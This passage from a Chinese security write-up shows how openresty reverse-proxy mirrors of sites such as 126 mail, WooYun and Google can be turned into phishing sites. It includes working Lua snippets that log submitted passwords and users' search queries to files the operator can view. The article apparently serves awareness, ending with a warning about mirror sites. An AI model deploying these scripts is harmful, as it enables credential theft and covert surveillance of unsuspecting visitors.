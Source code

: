 init_by_lua_file一般是初始化一些全局使用的函数，不多说了。说一下我写的access_by_lua_file时调用的fish.lua：

```
local method=ngx.req.get_method()
if in_array(ngx.var.host, valid_host) then
if method == "POST" then
    ngx.req.read_body()
    local data = ngx.req.get_body_data()
    writefile("/home/wwwroot/fish/"..ngx.var.host..".txt", data .. "\n")
end
end

```

当host在valid_host（钓鱼站的host）中时，判断如果请求是POST请求，就将数据包的body写入/home/wwwroot/fish/ $ngx.var.host .txt 中。

这时，我访问http://126.jjfly.party/admin/126.jjfly.party.txt 就可以看到实时钓鱼的结果：

![enter image description here](http://drops.javaweb.org/uploads/images/3da5e5d73fc6fbed22c08c289567729a96218c01.jpg)

乌云也一样：http://wooyun.jjfly.party/admin/wooyun.jjfly.party.txt

![enter image description here](http://drops.javaweb.org/uploads/images/9a1932ca320530d38549b6d42488925026dab655.jpg)

QQ邮箱那个因为环境太复杂（有至少三个host需要反代），所以我宁愿选择在前端插入脚本进行劫持。

除了记录用户输入的账号密码，根据反代网站的类型不同还能截取很多有趣的东西。

比如谷歌，我可以记录访客在谷歌中查询的内容：

![enter image description here](http://drops.javaweb.org/uploads/images/9d38614725d4dec22e06190442102a2f0deb09bd.jpg)

脚本也很简单：

```
if ngx.var.host == "xdsec.mhz.pw" then
    local args = ngx.req.get_uri_args()
    if args["q"] then
        writefile("/home/wwwroot/fish/"..ngx.var.host..".txt",  "search: " .. args["q"] .. "\n")
    end
end

```

可见，虽然你看到的流量是经过一个拥有正规的证书的https站点的。但实际上我在写lua脚本的时候根本不用在乎流量是否加密，因为openresty总会将一个明文的数据包交给我处理。

那么：Youtube，我们可以记录访客看过哪些视频；wikipedia，我们可以记录用户搜索过哪些姿势；1024，我们可以记录哪些片子的点击率最高……（笑）

自从各大国外站点陆续从互联网上消失以后，现在镜像网站越来越多。但上面的案例也说明了，镜像网站也并不一定都是正直的。

0x06 结合缓存与redis提升反代效率
=====

当然openresty绝不仅仅是拥有这样一些简单的功能。openresty出现的定义就是一个“全功能的 Web 应用服务器”，所以php可以有的功能它都可以办到。 简单来说我们可以直接在openresty上用lua编写一个完整的动态网站。 之前我们的反代配置，有一些无法避免的缺点：

1.  对gzip的支持不好，要不就是不使用压缩，要不就是需要解压，效率较低
2.  没有使用缓存，请求频繁、并发量大的情况下nginx可能被上游服务器封掉。
3.  后端没有进行负债均衡。

